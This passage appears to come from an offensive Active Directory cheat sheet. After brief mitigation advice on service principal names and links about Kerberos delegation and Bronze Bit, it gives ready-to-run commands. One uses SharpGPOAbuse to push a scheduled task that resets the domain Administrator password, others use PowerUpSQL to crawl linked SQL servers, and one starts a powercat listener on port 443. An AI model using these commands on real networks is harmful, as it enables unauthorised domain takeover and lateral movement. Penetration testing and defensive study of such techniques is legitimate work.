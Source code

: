 
--> To protect against this attack, we must avoid having *SPN* on user accounts, in favor of machine accounts.  
--> If it is necessary, we should use Microsoft’s Managed Service Accounts (MSA) feature, ensuring that the account password is robust and changed regularly and automatically

### Kerberos Delegation
- https://www.youtube.com/watch?v=7_iv_eaAFyQ

### Kerberos Bronze Bit
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-overview/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/

### Abusing Vulnerable GPO
```
\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

### Abusing MS-SQL Service
- https://www.offsec-journey.com/post/attacking-ms-sql-servers
- https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

```
. ./PowerUPSQL.ps1
Get-SQLInstanceLocal -Verbose
(Get-SQLServerLinkCrawl -Verbose -Instance "10.10.10.20" -Query 'select * from master..sysservers').customquery 

Import-Module .\powercat.ps1 powercat -l -v -p 443 -t 10000
```

### Relay attacks